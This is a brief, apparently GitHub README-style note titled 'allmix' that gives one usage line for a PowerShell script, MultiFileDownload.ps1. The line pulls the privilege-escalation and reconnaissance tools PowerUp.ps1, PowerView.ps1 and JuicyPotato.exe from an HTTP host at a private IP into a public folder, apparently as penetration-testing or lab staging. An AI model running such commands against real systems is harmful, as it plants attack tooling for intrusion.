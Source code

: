 # allmix

## LISTS

# MultiFileDownload.ps1
 if on cmd type powershell
 .\MultiFileDownload.ps1 -HostUrl "http://192.168.119.172:8080" -FileNames "PowerUp.ps1", "PowerView.ps1", "JuicyPotato.exe" -Destination "C:\Users\Public\"
